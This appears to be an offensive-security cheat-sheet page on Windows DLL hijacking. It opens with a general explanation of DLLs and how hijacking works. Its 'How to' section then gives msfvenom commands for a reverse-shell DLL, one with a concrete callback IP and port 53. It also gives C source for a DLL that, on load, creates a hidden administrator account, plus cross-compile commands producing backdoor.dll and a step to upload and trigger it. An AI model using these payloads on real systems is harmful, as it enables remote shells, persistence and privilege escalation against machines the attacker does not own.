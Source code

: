 ## Description
A **DLL (Dynamic Link Library)** is a file that contains code and data that can be used by multiple programs simultaneously. It is somewhat analogous to a Linux `.so` (Shared Object) file. DLLs are used in Windows to hold libraries of functions, resources, and other components, allowing for modular and efficient coding. They enable code reuse across different applications and help reduce the size of executable files since multiple programs can share the same DLL file instead of each having its own copy.

Key Points About DLLs:  
1. **Functionality**: A DLL can contain functions, classes, variables, and resources like icons, images, or files. Applications or services can call these functions or use these resources without having to include them in their own codebase.  
2. **Dynamic Linking**: Unlike static libraries that are linked during the compilation of an application, DLLs are linked at runtime. When an application starts, it looks for the required DLLs and loads them into memory. If the DLLs are already loaded for another process, the application can share them, improving memory usage.  
3. **Windows Application/Service Startup**: When a Windows application or service starts, it often relies on several DLLs for the features it provides. For example, many system services and user applications require common DLLs (such as `kernel32.dll` or `user32.dll`) to interact with the operating system's core functionality.  
4. **Missing or Malicious DLLs**: If a required DLL is missing or can't be found in the expected locations, the application may fail to start or function properly. This process of searching for and loading DLLs can be exploited. Attackers may replace a legitimate DLL with a malicious one, or place a malicious DLL in a location where the application will find and load it first. This type of attack is known as **DLL hijacking** or **DLL preloading**.  
5. **DLL Hijacking**: In DLL hijacking, when a Windows application starts and searches for a required DLL, if the legitimate DLL is absent or an attacker has placed a malicious DLL with the same name in a directory that the application checks first, the system will load the malicious DLL. This allows the attacker to execute arbitrary code within the context of the application, potentially gaining control of the system or performing other malicious actions.

## How to ?
### Reverse shell
Generate reverse shell for `.dll`
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<TARGET_IP> LPORT=<PORT> -f dll -o rev.dll
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.17.38.79 LPORT=53 -f dll -o rev.dll
```
Upload `.dll` and trigger its execution

### Create User 
Create User `.dll` script
```c
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user HackingT1me Password123@! /add");
  	    i = system ("net localgroup administrators HackingT1me /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```
Cross-compile the code according to the target machine specification
```
64-bit Windows DLL
x86_64-w64-mingw32-gcc -shared -o backdoor.dll yourcode.cpp

32-bit Windows DLL
i686-w64-mingw32-gcc -shared -o backdoor.dll yourcode.cpp
```
>Use g++ for C++ code

Upload `.dll` and trigger its execution
